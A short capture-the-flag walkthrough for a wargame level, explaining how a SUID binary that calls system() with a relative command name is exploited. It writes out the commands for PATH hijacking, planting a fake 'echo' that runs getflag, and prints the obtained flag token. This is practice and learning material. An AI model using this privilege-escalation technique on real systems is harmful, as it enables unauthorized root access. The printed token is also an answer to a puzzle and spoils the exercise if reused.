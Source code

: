 ## Walkthrough :  
- This level have an executable with SUID FLAG , and uses environment variable to execute system command using *system* function  
- So i thought of creating shell file with the name echo command and add the path to environment variable that can be called when the program runs.
- creating a file with name echo, contain getflag command 
```
chmod 777 . && echo "getflag" >> echo && chmod 777 echo
```
- add the path to the begining of the PATH environment variable.
```
export PATH=/home/user/level03/:$PATH
```
- Execute the program **./level03** and got the flag
```
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

## Ressources
[Exploiting SUID programs with relative paths](https://medium.com/r3d-buck3t/hijacking-relative-paths-in-suid-programs-fed804694e6e)